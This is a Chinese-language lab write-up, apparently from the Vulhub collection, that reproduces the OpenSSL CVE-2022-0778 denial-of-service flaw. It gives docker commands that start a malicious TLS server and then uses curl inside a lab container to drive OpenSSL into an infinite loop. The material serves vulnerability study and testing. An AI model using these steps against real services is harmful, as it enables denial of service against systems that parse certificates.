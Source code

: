 # OpenSSL无限循环DOS漏洞（CVE-2022-0778）

OpenSSL是一个开放源代码的软件库包，应用程序可以使用这个包来进行安全通信，避免窃听，同时确认另一端连接者的身份。这个包广泛被应用在互联网的网页服务器上。

OpenSSL 1.1.1m 版本及以前存在一处逻辑缺陷，攻击者可以利用一个无效的椭圆曲线参数证书，触发一个无限循环导致耗尽目标CPU。由于证书解析发生在验证证书签名之前，任何解析外部提供的证书的进程都可能受到拒绝服务的攻击。

参考链接：

- <https://github.com/drago-96/CVE-2022-0778>
- <https://www.cnblogs.com/logchen/p/16030515.html>
- <https://catbro666.github.io/posts/83951100/>
- <https://github.com/yywing/cve-2022-0778>

## 漏洞环境

执行如下命令启动一个server：

```
docker compose up -d
```

## 漏洞复现

首先，使用[这个项目](https://github.com/vulhub/cve-2022-0778)中的代码编译并运行一个恶意服务器。如果你没有Golang相关编译环境，也可以直接使用如下Docker命令启动：

```
docker run -it --rm -p 12345:12345 yywing/cve-2022-0778 --addr 0.0.0.0:12345
```

然后，你可以在Vulhub环境中使用`top`命令来查看此时的CPU占用：

```
docker compose exec curl top
```

由于这个漏洞是发生在解析TLS证书时，所以我们可以使用cURL来复现这个漏洞。进入容器，并执行cURL命令访问前面启动的恶意服务器：

```
docker compose exec curl bash
curl -k https://host.docker.internal:12345
```

此时，cURL会陷入死循环，查看`top`中的CPU占用即可发现已经100%：

![](1.png)
